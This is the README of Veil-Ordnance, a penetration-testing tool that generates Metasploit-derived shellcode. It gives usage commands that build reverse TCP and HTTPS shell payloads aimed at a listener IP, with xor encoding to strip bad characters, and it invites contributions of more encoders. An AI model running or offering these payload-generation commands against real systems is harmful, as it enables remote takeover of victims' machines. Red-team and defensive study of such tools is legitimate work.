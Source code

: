 Veil-Ordnance
======

Veil-Ordnance is designed to quickly generate shellcode that can be used for exploits or payloads.  The inspiration for this came after multiple discussions between @christruncer, @themightyshiv, and @harmj0y where we identified a need for a tool that generates shellcode, that won't change its output on us.  Rather than rely on a third party to do this, we decided we should write our own.

All payloads in this tool were ported from the Metasploit Framework.  There is no claim to being the original author of any of the payloads.  The awesome guys working on the Metasploit Project deserve all praise for writing the different payloads within this tool.  Their payloads were simply ported from Ruby to Python.


Usage:

./Veil-Ordnance.py -p rev_tcp --ip 192.168.63.149 --port 8675

Examples:

./Veil-Ordnance.py -p rev_https --ip 192.168.63.149 --port 443 -e xor -b \x00\x0a --print-stats


Thanks:
Thanks to the Metasploit team for all their hard work.  Allowing their code to be used by the community is awesome, and really appreciated.  Thanks to Jon Yates (@redbeardsec) for really helping to get my up to speed and providing his analysis on how payloads are generated.  Thanks to Justin Warner (@sixdub) for allowing me to include his shellcode encoder within Ordnance.


Call to Action:
We'd love for an additional encoder, or more, to be added to Veil-Ordnance.  The more that can be added in/ported, the better coverage in ensuring that at least one encoder could be used to prevent any specific bad character.  If anyone is willing to port one, or send us a python version of their encoder, please hit us up, or send a pull request!  We'd be happy to give full credit to you.

avlol
